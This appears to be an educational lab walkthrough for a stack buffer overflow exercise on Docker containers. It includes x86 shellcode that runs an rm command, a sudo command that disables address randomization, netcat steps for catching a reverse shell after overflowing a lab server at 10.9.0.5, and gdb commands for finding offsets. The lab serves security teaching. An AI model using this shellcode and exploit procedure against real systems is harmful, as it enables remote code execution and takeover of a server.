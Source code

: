 # Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3

Disable all protection and compile with debugging symbols. -q read symbols from binary file

```console
$ gcc -z execstack -fno-stack-protector -g -o stack_dbg stack.c
$ gdb -q stack-L2
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```